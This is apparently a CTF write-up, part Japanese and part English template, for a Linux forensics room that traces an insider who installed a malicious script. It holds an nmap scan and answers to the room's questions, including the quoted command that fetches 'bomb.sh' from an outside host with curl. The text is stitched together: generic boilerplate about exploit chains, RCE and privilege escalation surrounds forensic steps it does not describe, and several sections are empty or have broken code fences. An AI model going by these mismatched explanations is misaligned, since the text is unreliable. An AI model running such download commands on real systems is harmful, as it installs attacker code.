

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Linux |
| Difficulty                | Not specified |
| Attack Surface            | 22/tcp open  ssh, 80/tcp open  http |
| Primary Entry Vector      | log-analysis, history-analysis |
| Privilege Escalation Path | Local misconfiguration or credential reuse to elevate privileges |

## Reconnaissance

### 1. PortScan

---

Initial reconnaissance narrows the attack surface by establishing public services and versions. Under the OSCP assumption, it is important to identify "intrusion entry candidates" and "lateral expansion candidates" at the same time during the first scan.

## Rustscan

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### Not implemented (or log not saved)

```

## Nmap
```
ip
```

```
nmap -sV -sT -sC $ip
```

### 2. Local Shell

---

ここでは初期侵入からユーザーシェル獲得までの手順を記録します。コマンド実行の意図と、次に見るべき出力（資格情報、設定不備、実行権限）を意識して追跡します。

### 実施ログ（統合）

このルームは一般的な侵入ではなく、内部不正の痕跡を追跡するフォレンジック寄りの問題でした。  
最初に公開サービスを把握し、その後はユーザーの履歴-ログ-cronを横断して「誰が-いつ-何をしたか」を復元します。

## 1. PortScan

```
nmap -sV -sT -sC $ip
```

```
┌──(n0z0㉿LAPTOP-P490FVC2)-[~]
└─$ nmap -sV -sT -sC $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-27 19:10 JST
Nmap scan report for 10.10.0.240
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

## 2. Timeline Reconstruction

まず `cybert` ユーザーの履歴とログを確認し、怪しい操作履歴を時系列で整理します。

```
cat /home/cybert/.bash_history
cat /var/log/auth.log | grep -i -E 'sudo|it-admin|cybert'
ls -la /bin/os-update.sh
```

### 確認できた内容（回答）

- Question 1: 最初に実行された apt コマンド  
  `/usr/bin/apt install dokuwiki`
- Question 2: 不正ユーザーが作業していたホームディレクトリ  
  `/home/cybert`
- Question 3: 追加されたローカルユーザー  
  `it-admin`
- Question 4: `/etc/sudoers` が編集された時刻  
  `Dec 28 06:27:34`
- Question 5: 実行された悪性スクリプト名  
  `bomb.sh`
- Question 6: `bomb.sh` を取得したコマンド  
  `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`
- Question 7: スクリプトが移動された先  
  `/bin/os-update.sh`
- Question 8: `os-update.sh` の最終更新日時  
  `Dec 28 06:29`
- Question 9: 作成された証拠ファイル  
  `/goodbye.txt`
- Question 10: 最終実行時刻  
  `08:00 AM`

## 3. Key Takeaway

このルームの本質は exploit 開発ではなく、断片的な証拠（bash history, auth log, cron, file timestamp）を統合してインシデントのストーリーを確定する点です。  
OSCP/実務でも、侵入後の調査フェーズで同じ観点が求められるため、`履歴 + ログ + タイムスタンプ` の三点セットは常に押さえるべきです。
```

💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

During the privilege escalation phase, we will prioritize checking for misconfigurations such as `sudo -l` / SUID / service settings / token privilege. By starting this check immediately after acquiring a low-privileged shell, you can reduce the chance of getting stuck.

This command is executed during privilege escalation to validate local misconfigurations and escalation paths. We are looking for delegated execution rights, writable sensitive paths, or credential artifacts. Any positive result is immediately chained into a higher-privilege execution attempt.
```bash
cat /home/cybert/.bash_history
cat /var/log/auth.log | grep -i -E 'sudo|it-admin|cybert'
ls -la /bin/os-update.sh
```

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
No credentials obtained.
```

## Lessons Learned / Key Takeaways

### 4.Overview

---




## References

- nmap
- rustscan
- sudo
- ssh
- curl
- cat
- grep
- GTFOBins
